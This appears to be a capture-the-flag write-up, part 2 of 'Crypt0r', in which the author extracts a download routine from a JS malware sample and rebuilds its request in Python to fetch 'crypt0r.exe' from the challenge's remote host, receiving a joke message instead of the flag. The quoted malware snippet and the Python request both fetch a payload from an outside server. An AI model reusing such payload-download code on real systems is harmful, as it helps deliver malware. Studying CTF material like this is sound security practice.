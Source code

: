      _Susumitsudukete sae ireba, osoku tomo kankei nai._


#Crypt0r 2
If you read the crypt0r part 1, you saw that we found a website hosting the flag. The evil .js file tries to download the crypt0r.exe file, but we hit a 404
page.

## Getting crypt0r
If you remember the js malware file, we had:
```
    X.open('GET', T + "?p=r&l=" + C, false);
    X.SetRequestHeader("User-Agent:", "Made by b4cc4rd1");
    X.send(A);
    return X.responsetext;
```

Th T is the URL, but you can see that this URL got options p and l, and a
very specific User-Agent.
We know that T equals to http://glkrgjoegjnfozpkfpze.gpozgzejgozjaaacc.sweetvpn.top/binaries/arch/win32/crypt0r.exe , and C is the parameter of the Pt() function.
Pt() is called with that:
```
Pt(2565454484514854845487848, "kgjgepog=kfOIIIeeoezj==")
```
So we can build the requests and get, umh, something :)
```
In [6]: import requests

In [7]: hder={"User-agent": "Made by b4cc4rd1"}

In [8]: url='http://glkrgjoegjnfozpkfpze.gpozgzejgozjaaacc.sweetvpn.top/binaries/arch/win32/crypt0r.exe?p
   ...: =r&l=2565454484514854845487848'

In [9]: r=requests.get(url=url,headers=hder)

In [10]: r.status_code
Out[10]: 200

In [11]: print r.text

    This is not the flag. Come on, win32 is so deprecated anyway!


                         _nnnn_                      
                        dGGGGMMb     ,"""""""""""""".
                       @p~qp~~qMb    | Linux Rules! |
                       M|@||@) M|   _;..............'
                       @,----.JM| -'
                      JS^\__/  qKL
                     dZP        qKRb
                    dZP          qKKb
                   fZP            SMMb
                   HZM            MMMM
                   FqM            MMMM
                 __| ".        |\dS"qML
                 |    `.       | `' \Zq
                _)      \.___.,|     .'
                \____   )MMMMMM|   .'
                     `-'       `--' 



In [12]: 
```